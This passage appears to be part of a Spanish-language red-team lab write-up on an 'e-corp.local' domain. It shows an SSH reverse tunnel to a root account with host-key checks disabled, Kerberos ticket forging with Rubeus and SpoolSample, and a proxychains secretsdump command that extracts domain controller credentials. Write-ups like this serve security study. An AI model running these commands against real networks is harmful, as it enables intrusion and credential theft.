 ```
ssh -R 8080 -fCnN -oServerAliveInterval=60 -oServerAliveCountMax=1 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no root@192.168.159.138
```
![SSH connection](./redteam/ssh_t.png)

Usando la herramienta Rubeus y SpoolSample.exe se creó un ticket para poder acceder al equipo Windows.

![Ticket](./redteam/ticket_gen.png)
Convertiendo el ticket a .ccash -> .kirby desde la maquina atacante.

![Kirby Conversion](./redteam/ticket_kirbi.png)

Corriendo 
```
proxychains secretsdump.py -k -no-pass -dc-ip 192.168.1.2 -target-ip 192.168.1.2 e-corp.local/"primary$"@primary.e-corp.local
```
